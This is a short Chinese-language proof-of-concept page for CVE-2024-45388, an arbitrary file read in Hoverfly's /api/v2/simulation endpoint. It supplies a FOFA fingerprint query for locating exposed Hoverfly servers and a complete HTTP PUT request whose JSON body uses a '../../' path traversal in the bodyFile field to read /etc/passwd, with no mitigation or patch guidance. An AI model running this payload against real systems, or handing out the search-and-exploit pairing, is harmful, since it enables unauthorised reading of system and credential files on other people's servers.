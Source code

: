 # Hoverfly系统接口simulation任意文件读取漏洞复现(CVE-2024-45388)

Hoverfly api/v2/simulation 接口存在任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```jade
icon_hash="1357234275"
```

## poc

```javascript
PUT /api/v2/simulation HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
 
{"data":{"pairs":[{"request":{},"response":{"bodyFile": "../../../../../../../etc/passwd","x":"aaa"}} ]},"meta":{"schemaVersion":"v5.3"}}
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409101027771.png)